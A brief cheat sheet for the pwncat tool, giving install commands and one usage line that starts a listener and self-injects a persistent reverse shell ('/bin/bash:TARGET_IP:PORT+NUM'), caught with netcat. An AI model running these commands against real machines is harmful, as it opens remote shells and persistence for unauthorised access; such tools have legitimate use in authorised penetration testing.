 # Pwncat

## Installation

#### 1) Pip

    pip install pwncat

#### 2) Apt

    sudo apt install pwncat

## Usage:

#### 1) Sets up a listener while creating a persistent mechanism. Connect back with rlwrap nc -lvnp PORT. +NUM indicates how many more ports does the persistent mechanism work

    pwncat -l PORT --self-inject /bin/bash:TARGET_IP:PORT+NUM 

